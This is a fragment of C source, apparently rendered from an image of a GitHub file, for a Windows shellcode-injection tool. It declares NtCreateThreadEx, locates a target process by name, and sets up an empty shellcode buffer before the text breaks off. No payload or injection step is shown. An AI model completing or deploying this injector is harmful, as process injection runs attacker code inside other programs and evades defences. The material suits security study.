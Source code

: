 ```c
);

typedef NTSTATUS(NTAPI* pNtCreateThreadEx)(
    PHANDLE            ThreadHandle,
    ACCESS_MASK        DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    HANDLE             ProcessHandle,
    PVOID              StartRoutine,
    PVOID              Argument,
    ULONG              CreateFlags,
    SIZE_T             ZeroBits,
    SIZE_T             StackSize,
    SIZE_T             MaximumStackSize,
    PPS_ATTRIBUTE_LIST AttributeList
);

DWORD GetProcessId(const TCHAR* processName) {
    PROCESSENTRY32 processInfo;
    processInfo.dwSize = sizeof(processInfo);

    HANDLE processesSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    #ifdef _DEBUG
    if (processesSnapshot == INVALID_HANDLE_VALUE) {
        printf("Unable to acquire processes snapshot");
        return 0;
    }
    #endif

    Process32First(processesSnapshot, &processInfo);

    if (!_tcscmp(processName, processInfo.szExeFile)) {
        CloseHandle(processesSnapshot);
        return processInfo.th32ProcessID;
    }

    while (Process32Next(processesSnapshot, &processInfo)) {
        if (!_tcscmp(processName, processInfo.szExeFile)) {
            CloseHandle(processesSnapshot);
            return processInfo.th32ProcessID;
        }
    }

    CloseHandle(processesSnapshot);

    return 0;
}

int _tmain(int argc, TCHAR** argv) {

    // Hex encoded binary shellcode.
    unsigned char shellcode[] = "";
    size_t szShellcode = sizeof(shellcode);

    #ifdef _DEBUG
    if (argc < 2) {
        printf("Usage: code.exe <TARGET_PROCESS_PID | TARGET_PROCESS_NAME>\n");
        return 1;
    }
    #endif

    DWORD tpid = _tstoi(argv[1]);

```